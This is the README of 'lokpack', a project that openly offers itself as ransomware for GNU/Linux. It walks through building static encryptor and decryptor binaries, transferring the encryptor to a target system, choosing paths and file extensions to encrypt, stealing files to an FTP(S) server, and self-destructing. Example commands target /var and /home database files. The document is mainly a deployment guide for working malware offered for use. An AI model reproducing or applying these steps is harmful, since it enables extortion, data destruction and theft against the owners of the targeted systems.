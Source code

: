# lokpack | ransomware for GNU/Linux

lokpack is a free ransomware for modern GNU/Linux systems, written in C

![showcase](https://github.com/ngn13/lokpack/assets/78868991/d1d8e490-b7d3-4f21-aeca-368eb0a0a0d8)

## Features

- Build static encryption and decrypiton tools
- Steal files using a FTP(S) server
- Specify custom target paths
- Uncrackable RSA asymmetric encryption
- Multi-threaded (a.k.a. fast)

## Installation

### Binary builds

You can download the latest release archive, which contains a static build of
the encryptor and the decryptor, **without SSL/TLS** support. After downloading
and extracting the archive, run the `patch.py` script to replace the
private/public keys:

```bash
# make sure you have pycryptodome installed
python3 patch.py
```

### From the source

Required libraries/tools are:

- A (x86_64) Linux system
- gcc and other build tools
- curl (and headers)
- openssl (and headers)

> [!WARNING] Do NOT build from the latest commit, check out the latest tag or
> download the [latest release](https://github.com/ngn13/lokpack/releases).

To generate static builds, you will need static libraries of curl and openssl,
**if your distro does not package these**, you can build them yourself or use
the automated build scripts:

```bash
./scripts/openssl.sh
./scripts/curl.sh
```

**Note that automated script for curl does not support SSL/TLS connections**.

After building the static libraries, use the build script to create build with a
random key:

```bash
./scripts/build.sh -static
```

This should create the `encryptor` and the `decryptor` binares at `dist/`.

## Usage

After transfering `encryptor` to the target system, you can specify custom
options:

```bash
$ ./encryptor --help
[*] Listing available options:
    --threads  => Thread count for the thread pool
    --paths    => Paths to look for files
    --exts     => Valid extensions for files
    --ftp-url  => Address for the FTP(S) server
    --ftp-user => FTP(S) username
    --ftp-pwd  => FTP(S) password
    --no-ftp   => Disable stealing files with FTP(S)
    --destruct => Self destruct the program
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home`
without FTP using 100 threads:

```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```

If you want to encrypt all files with all extensions, set `--exts` to `ALL`.

Decryptor does not have any options, but can specify the target directory, by
default it searches the entire file system (`/`):

```bash
./decryptor /var
```

### Setting up FTP(S)

For an actual FTP(S) setup you should install a FTP daemon such as `vsftpd` or
`bftpd`. But for testing you can use `pyftpdlib`:

```bash
# username and password are 'anonymous'
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

## Resources

- [C-Thread-Pool](https://github.com/Pithikos/C-Thread-Pool)
- [CURL ftpupload](https://curl.se/libcurl/c/ftpupload.html)
- [CURL options](https://curl.se/libcurl/c/easy_setopt_options.html)
- [OpenSSL RSA Demo](https://github.com/openssl/openssl/blob/master/demos/encrypt/rsa_encrypt.c)
